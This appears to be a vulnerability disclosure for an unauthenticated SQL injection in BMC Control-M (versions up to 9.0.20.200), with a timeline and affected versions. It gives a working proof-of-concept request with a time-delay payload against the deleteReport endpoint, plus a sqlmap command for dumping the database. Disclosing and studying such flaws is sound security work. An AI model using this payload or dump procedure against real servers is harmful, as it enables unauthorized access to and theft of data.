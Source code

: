 # BMC Control-M Unauthenticated SQL Injection
**BMC Control-M Unauthenticated SQL Injection Version < 9.0.20.200**

**Timeline:**      
**Vulnerability reported to vendor:** 26.08.2022     
**New fixed 9.0.21 version released:** 12.09.2022    
**Patch for version 9.0.20.200 released:** 21.12.2022     
**Disclosure:** 05.06.2023    

**Affected Products:**   
BMC Control-M software up to (including) 9.0.20.200 .
Vulnerability found and confirmed in version 9.0.20.100, information about patch in version 9.0.20.200 comes from the vendor.



BMC Control-M software versions up to (including) 9.0.20.200 are vulnerable to Unauthenticated SQL Injection.    
Vulnerable parameter _report-id_ is present within _/RF-Server/report/deleteReport_ endpoint.    

Below is the Proof of Concept request which triggers a 10 seconds delay:
```
DELETE /RF-Server/report/deleteReport?report-id=’+waitfor+delay+’0:0:10’--
Host: [REDACTED]
Connection: close
user-id: X
Accept: application/json, text/plain, */*
server-name:
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: X
```
Additional Info: _Cookie_ and _user_id_ headers must be present, but the value can be random.     
Screenshot from BurpSuite:    
<img src="/BurpSuitePoC.jpg">

**Steps to dump the database:**   
Save the above request (without the payload) to a file request.txt :    
```
DELETE /RF-Server/report/deleteReport?report-id=1
Host: [REDACTED]
Connection: close
user-id: X
Accept: application/json, text/plain, */*
server-name:
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: X
```
Execute following _sqlmap_ command:    
```
sqlmap -r request.txt -p report-id —-no-cast —-dbs 
```
Screenshot of extracted database structure:   
<img src="/SqlmapPoC.png">

